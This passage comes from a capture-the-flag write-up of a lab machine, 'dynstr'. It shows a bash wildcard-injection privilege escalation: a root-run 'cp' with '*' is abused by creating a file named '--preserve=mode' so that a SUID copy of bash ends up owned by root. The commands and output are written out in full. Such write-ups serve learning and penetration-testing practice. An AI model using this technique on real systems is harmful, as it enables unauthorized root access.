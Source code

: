 
### Wildcard Exploit

#### Strategy

The vulnerable line is this:

    
    
    cp .version * /etc/bind/named.bindmgr/
    

It allows me to write any file I want into that directory owned as root. That
on it’s own is not bad. But because of how Bash handles wildcards, if I create
a file that looks like an option for `cp`, it will expand into place and be
applied to that `cp`.

#### –preserve

Looking at the `cp` [man page](https://linux.die.net/man/1/cp), the
`--preserve` option is interesting:

> **–preserve**[=_ATTR_LIST_]
>
> preserve the specified attributes (default: mode,ownership,timestamps), if
> possible additional attributes: context, links, xattr, all

I don’t want to preserver ownership or timestamp, but preserving mode would
allow me to create a SUID binary and then have it owned by root.

I’ll work out of `/dev/shm`, and first, create a version file to get past that
check:

    
    
    bindmgr@dynstr:/dev/shm$ echo 100 > .version
    
    bindmgr@dynstr:/dev/shm$ sudo bindmgr.sh 
    sudo: unable to resolve host dynstr.dyna.htb: Name or service not known
    [+] Running /usr/local/bin/bindmgr.sh to stage new configuration from /dev/shm.
    [+] Creating /etc/bind/named.conf.bindmgr file.
    [+] Staging files to /etc/bind/named.bindmgr.
    cp: cannot stat '*': No such file or directory
    [+] Checking staged configuration.
    [-] ERROR: The generated configuration is not valid. Please fix following errors: 
        /etc/bind/named.conf.bindmgr:2: open: /etc/bind/named.bindmgr/*: file not found
    

It errors out because there are no files. I’ll create two. First, I’ll copy
`bash` in and set it SUID. Then, I’ll `touch -- --preserve=mode`.

    
    
    bindmgr@dynstr:/dev/shm$ cp /bin/bash .
    bindmgr@dynstr:/dev/shm$ chmod 4777 bash 
    bindmgr@dynstr:/dev/shm$ touch -- --preserve=mode
    

I’ll run `sudo bindmgr.sh`, and the script fails at the config check, but the
SUID `bash` is now there:
